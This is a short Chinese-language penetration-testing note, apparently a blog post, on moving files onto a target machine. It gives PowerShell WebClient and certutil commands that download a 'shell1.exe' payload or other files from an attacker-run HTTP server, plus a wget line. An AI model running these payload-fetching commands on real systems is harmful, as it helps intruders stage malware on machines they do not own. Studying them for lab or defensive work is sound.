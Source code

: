 ```yaml
---
title: 渗透测试之文件传输
date: 2021/12/12
tags: 渗透测试
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
---
```




# 文件传输

---

- 首先要在本地机器上开启HTTP服务（在被传文件的同一路径下）：

```
python2 -m SimpleHTTPServer
python3 -m http.sever
```

---



## windows

- powershell

```
PowerShell (new-object Net.WebClient).DownloadFile('http://10.10.14.5:8082/shell1.exe','c:\Users\tolis\Desktop\shell1.exe')
```

- [certutil](https://zhuanlan.zhihu.com/p/107819644) windows自带渗透测试文件

```
certutil -f -urlcache http://10.10.14.3/file.exe renamefile.exe
certutil.exe -urlcache -split -f http://example.com/file.txt
```

## linux

- wget

```
需要切换到/tmp目录下，才具有下载权限
wget http://example.com:port/filename.txt
```

